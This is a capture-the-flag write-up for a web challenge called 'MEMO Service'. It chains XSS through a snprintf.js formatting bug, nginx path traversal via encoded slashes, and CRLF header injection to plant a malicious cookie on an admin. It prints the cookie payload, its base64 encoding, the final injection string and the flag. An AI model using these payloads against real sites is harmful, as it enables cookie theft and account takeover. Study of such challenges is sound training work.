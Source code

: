 ```yaml
---
layout: default
title: MEMO Service
---
```


# Webhacking MEMO Service Solution

That was tough :|

### XSS Injection
First, we need to be able to XSS injection the website.
There is bug in the `snprintf.js` file, that you can insert `%3c`, and then it'll take the next memo[i], and will execute:
```js
arg = String.fromCharCode(parseInt(arg, 10))
```

By this way, we can give this cookie for example:
`["%3c><img src=x onerror=alert('XSS-injectoin****(~-_-~)****')>","39"]` 
base64 encode:
  *`WyIlM2M+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KCdYU1MtaW5qZWN0b2luKioqKih+LV8tfikqKioqJyk+IiwiMzkiXQ==`*

![XSS injection](./images/MEMO_XSS_injection.png)

#### Building the cookie

You can use this script [cookie_build.py]
```python
% scripts/MEMO_Service_cookie_build.py
```
, for building your cookie, Change the `URL`, for your own webhook.

### Path Traversal

Ngnix is vulnerable to path traversal with this encoded slash `%2f`, we can go here: `/static/favicon.ico%2f..%2f..%2f`, and by this way access the home page.

### Header Injection Using CLRF

We can inject the `favicon.ico` using CLRF, and by this way modify the request.
![header Injection](./images/MEMO_Header_injection.png)

## ATTACK

we send the admin to the vulnerable page using the `header Injection`, and the `path traversal`. 
Then, we send in the headers `Set-Cookie`, and send the cookie that cause the `XSS Injection`.

At the end, this is what we'll supply to the report page
`favicon.ico%2f..%252f..%2f%0d%0aSet-Cookie:memo=ourMaliciousCookie`

![MEMO_final](./images/MEMO_Service_FLAG.png)

**Flag:** ***`FLAG{giant_double_burger}`*** 

